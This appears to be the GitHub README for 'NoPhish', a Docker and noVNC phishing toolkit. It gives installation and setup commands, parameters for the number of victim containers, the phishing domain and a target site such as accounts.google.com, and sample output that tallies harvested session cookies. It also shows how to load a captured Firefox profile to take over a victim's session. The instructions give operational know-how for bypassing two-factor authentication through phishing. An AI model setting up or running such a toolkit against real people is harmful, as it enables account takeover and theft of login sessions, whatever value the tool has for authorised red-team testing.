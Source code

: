 # NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/c18d058717000d3012ac5f492c11 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/b083a984e423ef0215a541337692 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/0b61f4b831dfe15b811c6b880351 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/28e09fec384967e8c4c05b80e1eb :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

## Using profile
If you are using the complete FF profile, you can just call firefox with -profile like that:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\w396hdsl.default-release\`
Everything is getting restored, including the latest site.

## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.
